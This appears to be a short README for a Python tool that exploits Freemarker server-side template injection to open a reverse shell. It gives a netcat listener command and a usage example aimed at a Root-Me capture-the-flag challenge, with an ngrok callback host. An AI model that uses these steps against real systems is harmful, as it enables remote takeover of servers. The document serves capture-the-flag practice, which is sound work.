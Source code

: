 
## Freemarker template exploition via reverse shell

# How to use ?

**You must open a netcat listener before : nc -lvp Your listening port**

Then launch :

> python3 main.py -u url -d post_variable -lhost Your listening ip -lport Your listening port

Example : 
> python main.py -u http://challenge01.root-me.org/web-serveur/ch41/check -d nickname -lhost 2.tcp.ngrok.io -lport 11598

